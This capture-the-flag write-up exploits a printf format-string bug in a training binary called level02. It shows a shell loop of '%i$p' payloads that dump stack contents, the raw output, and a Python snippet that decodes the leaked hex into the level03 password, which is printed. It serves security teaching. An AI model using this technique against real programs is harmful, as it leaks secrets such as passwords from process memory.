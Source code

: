 Here we see that one more time the executable prompts for a username and a password.
This time looking at the decompiled code we see that it would be possible to attack this binary using a format string exploit, because it's calling printf with a variable format as parameter.

# Locating the password
The other thing we see is that the binary is reading the password we want (/home/users/level03/.pass) at the beginning of the file, that means that at the moment we use printf, the password is somewhere on the stack.
Knowing it, we decide to use printf to print the stack, at least the 64 first values under the shape of hex pointers, so we can first measure the size of the printable stack.

```sh
for ((i = 1; i < 64; i++)); do
	echo "AAAA $i - %$i\$p" |./level02 | grep "does not have access" ; done
```
The echos are where things are happening, here we tell the printf inside level02 to print the ith value on the stack as a hexadecimal pointer and repeat it for i from 1 to 63

```
AAAA1 - 0x7fffffffea10 does not have access!
AAAA2 - (nil) does not have access!
AAAA3 - (nil) does not have access!
AAAA4 - 0x2a2a2a2a2a2a2a2a does not have access!
AAAA5 - 0x2a2a2a2a2a2a2a2a does not have access!
AAAA6 - 0x7fffffffec08 does not have access!
AAAA7 - 0x1f7ff9a08 does not have access!
AAAA8 - (nil) does not have access!
AAAA9 - (nil) does not have access!
AAAA10 - (nil) does not have access!
AAAA11 - (nil) does not have access!
AAAA12 - (nil) does not have access!
AAAA13 - (nil) does not have access!
AAAA14 - (nil) does not have access!
AAAA15 - (nil) does not have access!
AAAA16 - (nil) does not have access!
AAAA17 - (nil) does not have access!
AAAA18 - (nil) does not have access!
AAAA19 - (nil) does not have access!
AAAA20 - 0x100000000 does not have access!
AAAA21 - (nil) does not have access!
AAAA22 - 0x756e505234376848 does not have access!
AAAA23 - 0x45414a3561733951 does not have access!
AAAA24 - 0x377a7143574e6758 does not have access!
AAAA25 - 0x354a35686e475873 does not have access!
AAAA26 - 0x48336750664b394d does not have access!
AAAA27 - (nil) does not have access!
AAAA28 - 0x2d20383241414141 does not have access!
AAAA29 - 0x702439322520 does not have access!
AAAA30 - (nil) does not have access!
AAAA31 - (nil) does not have access!
AAAA32 - (nil) does not have access!
AAAA33 - (nil) does not have access!
AAAA34 - (nil) does not have access!
AAAA35 - (nil) does not have access!
AAAA36 - (nil) does not have access!
AAAA37 - (nil) does not have access!
AAAA38 - (nil) does not have access!
AAAA39 - (nil) does not have access!
AAAA40 - 0x2900000000 does not have access!
AAAA41 - 0x602010 does not have access!
AAAA42 - (nil) does not have access!
AAAA43 - 0x7ffff7a3d7ed does not have access!
AAAA44 - (nil) does not have access!
AAAA45 - 0x7fffffffec08 does not have access!
AAAA46 - 0x100000000 does not have access!
AAAA47 - 0x400814 does not have access!
AAAA48 - (nil) does not have access!
AAAA49 - 0x1b3535d016b2991e does not have access!
AAAA50 - 0x400730 does not have access!
AAAA51 - 0x7fffffffec00 does not have access!
AAAA52 - (nil) does not have access!
AAAA53 - (nil) does not have access!
AAAA54 - 0x6f9d83a9a2baacb5 does not have access!
AAAA55 - 0xe414ab7a767334b3 does not have access!
AAAA56 - 0x7fff00000000 does not have access!
AAAA57 - (nil) does not have access!
AAAA58 - (nil) does not have access!
AAAA59 - 0x400ac0 does not have access!
AAAA60 - 0x7fffffffec08 does not have access!
AAAA61 - 0x1 does not have access!
AAAA62 - (nil) does not have access!
AAAA63 - (nil) does not have access!
```

We can see line 28 that we printed 41414141 that is the hex code for AAAA that we asked printf to print first.
that means that after the 28th line all that is printed is after the printf string on the stack, and that we have to look above this line.

the new script will look like :

```sh
for ((i = 1; i < 28; i++)); do
	echo "$i - %$i\$p" |./level02 | grep "does not have access"; done
```


Here is the result of this script.
```
1 - 0x7fffffffea10 does not have access!
2 - (nil) does not have access!
3 - (nil) does not have access!
4 - 0x2a2a2a2a2a2a2a2a does not have access!
5 - 0x2a2a2a2a2a2a2a2a does not have access!
6 - 0x7fffffffec08 does not have access!
7 - 0x1f7ff9a08 does not have access!
8 - (nil) does not have access!
9 - (nil) does not have access!
10 - (nil) does not have access!
11 - (nil) does not have access!
12 - (nil) does not have access!
13 - (nil) does not have access!
14 - (nil) does not have access!
15 - (nil) does not have access!
16 - (nil) does not have access!
17 - (nil) does not have access!
18 - (nil) does not have access!
19 - (nil) does not have access!
20 - 0x100000000 does not have access!
21 - (nil) does not have access!
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
27 - (nil) does not have access!
```

# Decoding the password
The most random block we see is from line 22 to 26.
so we try to decode and reverse those to big endian using python :

```python
tab = ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']
for i in tab:
    print(i.decode('hex')[::-1])
```

That gives us :
```
Hh74RPnu
Q9sa5JAE
XgNWCqz7
sXGnh5J5
M9KfPg3H
```

Displayed as a string it's like 'Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H'.
And turns out this works as the password to log as level03, I think we have the flag we wanted.
